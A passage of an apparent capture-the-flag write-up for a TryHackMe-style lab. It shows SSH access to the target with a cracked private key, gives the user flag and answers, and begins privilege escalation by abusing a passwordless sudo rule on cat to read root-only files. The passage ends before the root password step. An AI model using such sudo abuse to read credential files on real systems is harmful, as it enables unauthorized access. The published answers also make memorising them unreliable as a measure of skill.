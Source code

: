 
**Answer**
###### rockinroll

**Question**
#### user.txt

Let's SSH the target.

- First: change the permission of the rsa key
```
chmod 600 rsa_private_key
```
- Second:  SSH command
```
sudo ssh -i rsa_private_key john@[IP]
```
- Find the user.txt

**Answer**
###### THM{a_password_is_not_a_barrier}

---
### Taks 4 - Privilege Escalation



**Question**
#### Find a form to escalate your privileges. What is the root's password?

- First: Check what action john can do
```
sudo -l

Matching Defaults entries for john on bruteit:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on bruteit:
    (root) NOPASSWD: /bin/cat
```

John can run cat command.

- Second: check [GTFOBins](https://gtfobins.github.io/)

Search **cat**

```
If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

LFILE=file_to_read
sudo cat "$LFILE"
```
